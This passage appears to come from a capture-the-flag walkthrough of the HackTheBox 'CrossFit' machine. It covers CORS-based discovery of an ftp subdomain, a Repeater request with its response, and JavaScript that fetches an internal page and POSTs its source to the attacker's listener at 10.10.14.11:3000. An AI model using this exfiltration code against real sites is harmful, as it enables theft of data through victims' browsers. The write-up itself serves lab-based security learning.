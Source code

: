It finds the `ftp` subdomain right away. I can recreate this result in Repeater with the following request:

```

GET / HTTP/1.1
Host: gym-club.crossfit.htb
Origin: http://ftp.crossfit.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```

The response:

```

HTTP/1.1 200 OK
Date: Sat, 23 Jan 2021 11:43:28 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding,Origin
Access-Control-Allow-Origin: http://ftp.crossfit.htb
Access-Control-Allow-Credentials: true
Content-Length: 36336
Connection: close
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="zxx">
...[snip]...

```

### Interacting with ftp.crossfit.htb

From my machine, `ftp.crossfit.htb` just returns the default Apache page, but the results above suggest it could be different coming from `gym-club`. I’ve already got JavaScript to make an HTTP query. I’ll repurpose that:

```

var fetch_req = new XMLHttpRequest();
fetch_req.onreadystatechange = function() {
    if(fetch_req.readyState == XMLHttpRequest.DONE) {
        var exfil_req = new XMLHttpRequest();
        exfil_req.open("POST", "http://10.10.14.11:3000", false);
        exfil_req.send("Resp Code: " + fetch_req.status + "\nPage Source:\n" + fetch_req.response);
    }
};
fetch_req.open("GET", "http://ftp.crossfit.htb/", false);
fetch_req.send();

```

